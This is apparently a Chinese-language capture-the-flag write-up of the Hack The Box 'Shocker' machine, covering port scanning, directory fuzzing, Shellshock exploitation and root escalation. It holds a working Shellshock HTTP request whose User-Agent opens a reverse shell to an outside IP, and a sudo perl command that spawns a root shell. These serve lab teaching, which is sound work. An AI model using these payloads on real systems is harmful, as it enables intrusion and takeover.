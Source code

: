 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Shocker"
linktitle: "Shocker"
date: 2022-04-24T14:09:40+08:00
type: book
summary: ""
test: 
---
```



### nmap扫描

```bash
sudo nmap -T4 -Pn 10.10.10.56
```

![](image/image_1eplrCsQh9.png)

扫描发现开放80，2222

![](image/image_yE7cvIoZ4q.png)

### 扫描路径

```bash
ffuf -u "http://10.10.10.56/FUZZ" -w /usr/share/dirb/wordlists/common.txt -t 50

#FUZZ是关键字

-u url
-t 线程数
-w 字典路径

#github
https://github.com/ffuf/ffuf
```

扫描到 `cgi-bin` 目录

![](image/image_MGVe7pLjhp.png)

换个字典，对cgi-bin继续fuzz

![](image/image_zmQgCs2fT9.png)

什么也没扫到，后面看答案发现这个路径下有个 user.sh，我的路径字典没有。

查看`user.sh`

![](image/image_knNfyNcXyL.png)

根据经验，发现这里存在 Bash Shellshock注入漏洞

```bash
漏洞英文名称  Bash Shellshock
中文命名    破壳（X-CERT）
威胁响应等级  A级
漏洞相关CVE编号   CVE-2014-6271
漏洞发现者   Stéphane Chazelas（法国）
漏洞发现事件  2014年9月中旬
漏洞公布时间  9月25日
漏洞影响对象  bash 1.14至bash 4.3的Linux/Unix系统 
```

漏洞详情

[https://wooyun.js.org/drops/Shellshock漏洞回顾与分析测试.html](https://wooyun.js.org/drops/Shellshock漏洞回顾与分析测试.html "https://wooyun.js.org/drops/Shellshock漏洞回顾与分析测试.html")

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271")

### 漏洞利用：

反弹shell

```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent:  () { :;};/bin/bash -i >& /dev/tcp/10.10.14.22/23333 0>&1


```

![](image/image_a4yVwHB3lY.png)

先拿一个flag

```bash
find / -name 'user.txt' 2>/dev/null

#过滤错误信
2>/dev/null
```

![](image/image_InH-4-ve1r.png)

### 提权：

使用 sudo -l 查看得知有权限使用 sudo 运行 /usr/bin/perl

```bash
sudo -l
```

![](image/image_ML_-8g0r0I.png)

执行

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

拿到root权限，

![](image/image_ghx3cNunJk.png)

```bash
find / -name 'root.txt' 2>/dev/null
```
